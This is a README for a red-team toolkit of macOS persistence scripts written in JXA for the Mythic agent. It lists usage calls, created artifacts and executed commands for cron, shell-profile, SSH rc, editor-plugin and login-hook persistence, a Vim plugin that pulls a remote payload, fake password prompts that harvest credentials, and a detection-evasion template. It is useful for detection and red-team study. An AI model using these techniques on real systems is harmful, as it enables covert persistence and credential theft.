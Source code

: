 # PersistentJXA
Collection of macOS persistence methods and miscellaneous tools in JXA  <br />
Related blog posts: 
- https://posts.specterops.io/persistent-jxa-66e1c3cd1cf5
- https://posts.specterops.io/are-you-docking-kidding-me-9aa79c24bdc1

# Usage
* In Mythic (Apfell Agent) :

```JavaScript
jsimport (Selected file)
jsimport_call <NameOfPersistenceScript>(ScriptArguments)
```


| Project | Description | Usage | Artifacts Created | Commandline Commands Executed
| :------ | :---------- | :----------- | :----------- | :----------- |
| **AtomPersist** |  Persistence using the Atom init script. Appends the Atom init script to execute our command. <br /> Persistence executes upon Atom opening. |jsimport_call AtomPersist('osascript -l JavaScript -e ...') | Modification to end of: <br /> /System/Volumes/Data/Users/{User}/.atom/init.coffee | N/A ||
| **BashProfilePersist** |  Modifies user's bash profile to execute script if the persistence process (current implementation assumes osascript) is not already running. If Catalina system then .zshenv is modified. <br /> Persistence executes on terminal open. | jsimport_call BashProfilePersist('osascript -l JavaScript -e ...', 'no') |  $HOME/.bash_profile or  $HOME/.zshenv <br /> <br /> ***If select "yes" for hidden file creation then:*** <br /> $HOME/.security/apple.sh <br />  $HOME/.security/update.sh <br /> | N/A by default. <br /> ***"no"*** for hidden file creation option <br /> <br /> ***If select "yes" for hidden file creation then:*** <br /> sh $HOME/.security/apple.sh <br /> <br /> sh $HOME/.security/persist.sh|
| **CalendarPersist** | Persistence via macOS Calendar.app alerts. This script will create new events and inserts them into the calendar with an alert that executes an application. There is additional funcitionality to modify exsiting events, list calendars, list events, and hide calendars. <br /> Persistence executes upon the event alert which triggers the specified persistence application. See https://github.com/FSecureLABS/CalendarPersist for usage details and background | jsimport_call persist_calalert("Fake Meeting", "/Users/Shared/Persist.app", 60, "daily", 1, 3, "FB825EFC-C65F-4959-8BDC-EBDF9E886C45")) | /Users/{USER}/Calendars/Calendar Cache | ***If hide_calendar function used:*** <br /> sh -c defaults write com.apple.iCal DisabledCalendars -dict MainWindow '({uid})'|
| **CronJobPersistence** | Persistence using CronJobs. This script will create a hidden file (share.sh) in the current user's Public/Drop Box folder. Writes a cron job with a default interval of 15mins which executes the hidden script.  <br />  (Note: This command generates a user prompt for Catalina. If the user clicks “Don’t Allow” the command should fail with an “operation not permitted"). <br /> Persistence executes every 15 mins. | jsimport_call CronJobPersistence('osascript -l JavaScript -e ...') | $HOME/Public/Drop\ Box/.share.sh <br /> crontab entry | sh -c echo "$(echo '15 * * * * cd $HOME/Public/Drop\\ Box/ && ./.share.sh' ; crontab -l)" \| crontab - <br /> <br />  sh -c (Persistence Action)|
| **DockPersist** | Modifies the apple dock plist for persistence. Requires an application to be present on target. Persistence executes upon user interaction. | jsimport_call DockPersist("Safari", "com.apple.automator.Safari","yes") <br /> or <br /> jsimport_call DockPersist("Google Chrome", "com.apple.automator.Google-Chrome","yes") | $HOME/Library/Preferences/com.apple.dock.plist |  ***If ReloadNow function used:*** <br /> /usr/bin/killall Dock |
| **FinderSyncPlugins** |  Persistence using Finder Sync Extensions. Requires and app on the target to be setup for abuse. It searches the app for the required files and registers them. <br /> See https://objective-see.com/blog/blog_0x11.html for how to setup. <br />  Persistence executes on login.  |  jsimport_call FinderSyncPlugins('/Users/Shared/SyncTest.app') | N/A | pluginkit -a </some/path/persist.appex> & <br /> <br /> pluginkit -e use -i <FinderSynsBundleID> & |
| **iTermAppScript** | Persistence using the iTerm2 application startup script. Appends the application script for iTerm2 to execute our command. If the folder does not exist then one will be created. <br /> Persistence executes upon iTerm2 opening. <br /> See https://theevilbit.github.io/beyond/beyond_0002/ for more details.|jsimport_call iTermAppScript('osascript -l JavaScript -e ...') | modification to end of /Library/Application\ Support/iTerm2/Scripts/AutoLaunch/iTerm.py | sh -c (Persistence Action) |
| **LoginScript** | **Requires Root** Modifies login window plist for persistence. Persistence executes on login. | jsimport_call LoginScript('osascript -l JavaScript -e ...') | /var/root/Library/Preferences/com.apple.loginwindow.plist <br />  <br />/Users/Shared/.security/test.sh |  sh -c (Persistence Action) |
| **PeriodicPersist** | **Requires Root** Create a daily job in /etc/periodic/daily. Persistence executes  daily. | jsimport_call PeriodicPersist('osascript -l JavaScript -e ...') | /etc/periodic/daily/111.clean-hist | sh -c (Persistence Action)|
| **ScreenSaverPersist** | Modifies the screensaver plist for persistence. Requires a .saver at ~/Library/Screen Savers/ to be present on target. Persistence executes upon screensaver triggering. Current implementation sets screensaver at 1 minute. | jsimport_call ScreenSaverPersist("Blank") <br /> | $HOME/Library/Preferences/ByHost/com.apple.screensaver.[Hardware-UUID].plist | /usr/bin/killall -hup cfprefsd |
| **SSHrc** |  Modifies or creates SSH rc file to execute persistence when the user logs in with SSH and if the persistence process (current implementation assumes osascript) is not already running. <br /> See https://twitter.com/0xdade/status/1373145566943711235?s=20 for more details. | jsimport_call SSHrc('itsatrap','osascript -l JavaScript -e ...', 'no') |  /Users/'userName'/.ssh/rc <br /> <br /> ***If select "yes" for hidden file creation then:*** <br /> /Users/'userName'/.security/apple.sh <br />  /Users/'userName'/.security/update.sh <br /> | N/A by default. <br /> ***"no"*** for hidden file creation option <br /> <br /> ***If select "yes" for hidden file creation then:*** <br /> sh /Users/'userName'/.security/apple.sh <br /> <br /> sh /Users/'userName'/.security/persist.sh |
| **SublimeTextAppScriptPersistence** | Persistence using the Sublime Text application script. Appends the application script for Sublime to execute our command.. <br /> Persistence executes upon Sublime opening. <br /> See https://theevilbit.github.io/posts/macos_persisting_through-application_script_files/ for more details.|jsimport_call SublimeTextAppScriptPersistence('osascript -l JavaScript -e ...') | modification to end of /Applications/Sublime\ Text.app/Contents/MacOS/sublime.py | sh -c (Persistence Action) |
| **SublimeTextPluginPersistence** | Persistence using Sublime Text plugins. Creates a plugin file that is executed upon the opening of Sublime. <br />  Persistence executes upon Sublime opening. | jsimport_call SublimeTextPluginPersistence('/Users/Shared/inject.dylib')| $HOME/Library/Application\ Support/Sublime\ Text\  [2 or 3] /PrettyText/PrettyText.py  | N/A |
| **VimPluginPersistence** | Persistence using Vim plugins. Creates a plugin file that is executed  upon the opening of vim. <br />  Persistence executes upon vim opening. | jsimport_call VimPluginPersistence('http://path/to/hosted/apfellpayload')  | $HOME/.vim/plugin/d.vim | sh -c (Persistence Action) |
| **xbarPlugin** | Persistence using xbar plugins. Creates a plugin file that is executed  upon the opening of xbar. <br />  Persistence executes upon xbar opening. Concept from @bradleyjkemp | jsimport_call xbarPlugin('osascript -l JavaScript -e ...')  | $HOME/Library/Application\ Support/xbar/plugins/xbarUtil.py | sh -c (Persistence Action) |

# Misc Scripts / Tools

| Project | Description | Usage | Artifacts Created | Commandline Commands
| :------ | :---------- | :----------- | :----------- | :----------- |
| **DylibHijackScan** | JXA version of Patrick Wardle's tool that searches applications for dylib hijacking opportunities. May generate user pop up if looking into protected fodlers. Requires xcode installed on 10.14.1| js_importcall DylibHijackScan()  | N/A | "sh -c  lsof \| tr -s ' ' \| cut -d' ' -f9 \| sed '/^$/d' \| grep '^/'\| sort \| uniq" <br /> sh -c file "placeholder"  <br /> sh -c  otool -l "placeholder" <br /> |
| **InjectCheck** | Process Injection Checker. The tool enumerates the Hardened Runtime, Entitlements, and presence of Electron files to determine possible injection opportunities | js_importcall InjectCheck("All") <br /> or <br /> js_importcall InjectCheck("/Applications/Firefox.app") | N/A | N/A |
| **PrivilegedHelperToolSpoof** | Tools searches the installed Privileged Helper Tools "/Library/PrivilegedHelperTools" and leverages legitimate icons and information in an attempt to gain user password credentials. The tool prompts again (with slightly different text) if the first password entry is blank. If no helper tool then default prompt for creds. | js_importcall PrivHelpToolSpoof() | N/A | sh -c launchctl plist __TEXT,__info_plist /Library/PrivilegedHelperTools/ <arrary> \| grep -A1 AuthorizedClients" |
| **OutlookUpdatePrompt** | Tool which prompts the user for and update in an attempt to gain password credentials. Attempts to bring a prompt using outlook icon if installed otherwise uses standard cog. Returns credentials from prompt entry to the user. | js_importcall OutlookUpdatePrompt() | N/A | N/A |
| **WorkflowTemplate** | A template for Automator to execute JXA. This is to evade simple detections on commandline osascript. After replacing the placeholder (JXA PAYLOAD HERE) with the desired js script, it can be executed by  /usr/bin/automator /path/to/file/Workflow.wflow. Requires the file to be on host but can be leveraged in combination with the above persistence methods | /usr/bin/automator /path/to/file/Workflow.wflow | /path/to/file/Workflow.wflow  | /usr/bin/automator /path/to/file/Workflow.wflow|
